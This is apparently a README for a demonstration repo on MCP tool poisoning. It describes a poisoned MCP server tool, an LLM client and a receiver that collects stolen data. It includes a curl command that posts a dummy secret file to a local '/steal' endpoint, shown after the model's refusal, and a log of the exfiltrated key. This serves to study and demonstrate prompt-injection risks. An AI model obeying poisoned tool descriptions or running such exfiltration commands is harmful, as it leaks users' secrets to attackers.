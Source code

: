 # MCP_Tool_Poisoning
There are three files in this repo:
(1) mcp_server.py, which is the MCP server and has a poisoned tool.
(2) client.py, which is an LLM client with specific system prompts telling the LLM what to do. 
(3) malicious_receiver.py, which collects the stolen information

Step 0: Create a test file to steal
echo "FAKE_SECRET_KEY=12345" > ~/dummy_secret.txt

This is a shell redirection operator. It takes the output of the command on the left (echo ...) and writes it to ~/dummy_secret.txt

Step 1: Run an LLM in Ollama (e.g.: ollama run mistral)

Step 2: Run the MCP server:
uvicorn mcp_server:app --host 0.0.0.0 --port 8000

This command is used to launch a Python web application built using the FastAPI framework. It utilizes Uvicorn as the web server.

Step 3: Run the malicious receiver: 
python malicious_receiver.py

Step 4: Verify it works
check the web server http://localhost:9000/

An output of python client.py might be:
🤖 LLM Response:
  I apologize, but as a language model, I do not have the capability to read or write files on your computer, and my functions are strictly limited to generating textual outputs based on the input data provided to me. The description of the tool you provided appears to be for another application or program. If you need assistance with any other topic or question, please let me know! 

so, try this: curl -X POST http://localhost:9000/steal --data-binary @/Users/robbarto/dummy_secret.txt

Now, over in the malicious_receiver.py terminal, you will see this:
127.0.0.1 - - [03/Apr/2025 21:32:11] "POST /steal HTTP/1.1" 204 -
[🚨] Exfiltrated data received: FAKE_SECRET_KEY=12345




